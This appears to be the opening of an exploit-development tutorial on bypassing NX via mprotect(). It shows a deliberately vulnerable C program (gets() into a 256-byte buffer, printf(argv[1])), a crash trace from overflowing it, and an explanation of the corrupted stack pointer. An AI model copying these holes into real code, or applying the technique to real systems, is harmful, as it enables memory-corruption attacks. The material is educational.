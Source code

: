 # Bypassing NX using mprotect() and gets(buffer) weak user input

* The vuln.c program:
```C
#include <stdio.h>

// manually declaring gets to bypass compilation error
char *gets(char *s);

int main(int argc, char *argv[]) 
{
        char buffer[256];
        printf(argv[1]);
        printf("\n");
        gets(buffer);
        return 0;
}
```

## Crashing the program:
* The buffer is of size 256 so lets send `256 * A` followed by `4 * B`
```bash
$eax   : 0x0       
$ebx   : 0xf7f9ce00  →  0x00000000
$ecx   : 0x42424242 ("BBBB"?)
$edx   : 0x0       
$esp   : 0x4242423e (">BBB"?)
$ebp   : 0x0       
$esi   : 0xffffcecc  →  0xffffd108  →  "COLORFGBG=15;0"
$edi   : 0xf7ffcb60  →  0x00000000
$eip   : 0x56556210  →  <main+0063> ret 
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
[!] Unmapped address: '0x4242423e'
──────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0x5655620b <main+005e>      pop    ebx
   0x5655620c <main+005f>      pop    ebp
   0x5655620d <main+0060>      lea    esp, [ecx-0x4]
 → 0x56556210 <main+0063>      ret    
   0x56556211                  add    BYTE PTR [eax], al
   0x56556213                  add    BYTE PTR [ebx-0x7d], dl
   0x56556216 <_fini+0002>     in     al, dx
   0x56556217 <_fini+0003>     or     al, ch
   0x56556219 <_fini+0005>     xchg   ebx, eax
──────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x56556210 in main (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x56556210 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
* As we can see, the return address written is the wrong one, and thats where we want to write our code
* Intersting point: on the top we see 
```bash
$ecx   : 0x42424242 ("BBBB"?)
...
$esp   : 0x4242423e (">BBB"?)
...
[!] Unmapped address: '0x4242423e'
```
What happens here is that the uppercase 'B' became a '>' in ESP because the stack pointer was pushed onto the stack at the start of the function, and loaded again before returning. 
It loads from ECX and subtracts 4, and because of the overflow, 'BBBB' or 0x42424242, is stored, and gives back 0x4242423e (giving `3e` instead of 42 for the first byte)
Apparently, moving the code from the main() function to a new function would get around the issue with the first character changing. 
